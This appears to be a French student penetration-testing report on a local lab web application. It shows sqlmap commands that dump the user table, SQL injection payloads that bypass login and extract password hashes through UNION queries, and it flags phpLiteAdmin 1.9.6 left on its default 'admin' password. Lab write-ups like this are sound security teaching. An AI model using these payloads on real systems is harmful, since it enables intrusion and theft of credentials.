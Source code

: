 # Projet 2

## Identification des failles 

En effectuant un premier test avec sqlmap on peut constater plusieurs choses. Nous avons la liste des tables, le type de la base (SQLite) et le nom de la base de données. On peut modifier les requêtes en conséquences. 

Apparemment la version SLQlite serait vulnérable aux injection UNION et à 

 **POST parameter 'txt_uname' is vulnerable** 

```sh
sqlmap -u "http://localhost:8080/login.php" --batch --tables --forms --crawl=2 --level=5 --risk=3

Database: SQLite_masterdb
[3 tables]
+-----------------+
| message         |
| sqlite_sequence |
| userSti         |
+-----------------+
```

Nous allons maintenant essayé de faire un dump de la table `userSti` afin de savoir si elle contient des credentials. On voit qu'il  y a 4 entrées utilisateur dans la table  userSti.

```sh
sqlmap -u "http://localhost:8080/login.php" --batch --dbms=SQLite -D SQLite_masterdb -T userSti --dump --forms --crawl=2 --level=5 --risk=3
+----+
| id |
+----+
| 1  |
| 2  |
| 3  |
| 5  |
+----+
```

### Injection SQL
La page de connexion est vulnérable à une "Boolean based Blind SQL Injection" sur le champ txt_login
```sql
' or 1=1;#
```

Il est possible de récupérer le script de création des tables sqlite, comme le site web est vulnérable à des unions attaques sur l'URL contact.php
```sql
'UNION select name,sql from sqlite_master;
```
La base de donnée donne 3 scripts de générations dont 2 nous intéresse (message, userSti, sqlite_sequence)
```sql
CREATE TABLE 'message' ('id' integer PRIMARY KEY AUTOINCREMENT, receiptDate DATE NOT NULL, sender integer NULL, receiver integer NULL, sujet varchar (50) NOT NULL, messageBody varchar (500) NOT NULL, CONSTRAINT fk_sender FOREIGN KEY(sender) REFERENCES userSti(id), CONSTRAINT fk_receiver FOREIGN KEY(receiver) REFERENCES userSti(id) )

CREATE TABLE 'userSti' ('id' integer PRIMARY KEY AUTOINCREMENT, username varchar (50) UNIQUE NOT NULL, password varchar (255) NOT NULL, isAdmin INT(1) NOT NULL, isActive INT(1) NOT NULL )
```
Il est possible de récupérer les mots de passe des utilisateurs pour pouvoir les étudier dans un second temps en offline
```sql
'UNION select 1,password from userSti;#
```

### PhpLiteAdmin

Nous avons une version de phpLiteAdmin 1.9.6 qui est vulnérable aux attaques CRSF, XSS et injection Html comme le montre ce [site](https://www.exploit-db.com/exploits/39714) cela permettrait. 

Le deuxième problème vient du fait que le mot de passe par défaut, **admin**,  a été laissé. Cela nous permet d'accéder compétemment aux données de l'application.  

### PHP Version 5.5.9 

La version php actuelle, qui est 5.5.9, est victime de plusieurs vulnérabilité sans exploit connu pour la plupart. Les possibilités les plus importantes sont le déni de service et l'exécution de code selon ce [site](https://www.cvedetails.com/vulnerability-list.php?vendor_id=74&product_id=128&version_id=164957&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&month=0&cweid=0&order=4&trc=101&sha=d8cb459be2a570e543cd95cce804c67332d729a8) 
